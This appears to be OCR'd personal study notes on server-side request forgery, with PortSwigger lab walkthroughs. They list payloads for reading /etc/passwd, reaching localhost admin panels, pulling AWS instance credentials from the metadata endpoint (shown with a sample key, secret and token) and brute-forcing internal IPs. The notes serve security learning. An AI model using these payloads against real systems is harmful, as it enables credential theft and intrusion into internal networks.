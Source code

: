 o	Again Cross check IP on websites
•	Escalate the impact (GET /showimage.php?file=<para>)
o	Whenever reporting the SSRF, HTTP Interaction is not enough, we need to increase the impact.
o	Try to read the internal file by putting this in parameter file:///etc/passwd
	file=file:///etc/passwd
	file=file://etc/passwd
	file=file://../etc/passwd
o	Try to access internal panel
	file=http://127.0.0.1 
	file=https://127.0.0.1 
	file=http://localhost 
	file=https://localhost 
	file=http://localtest.me
o	If target using AWS then try IP 169.254.169.254
	file=http:// 169.254.169.254
	GET /showimage.php?file=http://169.254.169.254
	GET /showimage.php?file=http://169.254.169.254/latest
•	dynamic
•	meta-data
o	In AWS always find these data
	Access key id
	Secret id
	Token
	ec2/ (Directory)
o	GET /showimage.php?file=http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
	"Code" : "Success",
	  "LastUpdated" : "2022-11-28T10:55:11Z",
	  "Type" : "AWS-HMAC",
	  "AccessKeyId" : "ASIA46GF5YQ46SVNRNCO",
	  "SecretAccessKey" :"6+6G/ActuqWunO6KENhygaVWfvWnr4",
	  "Token" : "IQoJb3JpZ2luX2VjECsaCXVzL xR0WA==",
	  "Expiration" : "2022-11-28T17:25:11Z"


•	PORTSWINGER LABS: Server-side request forgery (SSRF)

•	Lab 1: Basic SSRF against the local server
o	For POST /product/stock HTTP/1.1
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
o	Convert selection > URL > URL-decode (Ctrl+Shift+U)
	Replace with stockApi=http://Burp-collabr.oastify.com
o	Check Result in Burp Collaborator, check ip
o	Now try with IP 127.0.0.1
	stockApi=http://127.0.0.1
	stockApi=http://127.0.0.1/admin
	stockApi=http://localhost/admin
	stockApi=http://localhost/admin/delete?username=carlos

•	Lab 2: Basic SSRF against another back-end system
o	For POST /product/stock HTTP/1.1 stockApi=http://192.168.0.1:8080/product/stock/check?productId=20&storeId=1
o	Use Directory Brut Force
	stockApi=http://192.168.0.1:8080/abc
	add abc to intruder, use dirs payload.
	Check for 200 Status code.
o	IF not work, Brute force IP
	In internal server mostly used IP range are
	192.168.0.0-255
	192.169.1.0-255
o	Add 4th Octet, Payload Type: Numbers, 0 to 255, Steps: 1.
	http://192.168.0.0-255:8080/admin
	check 200 or Different status code from other. (404)
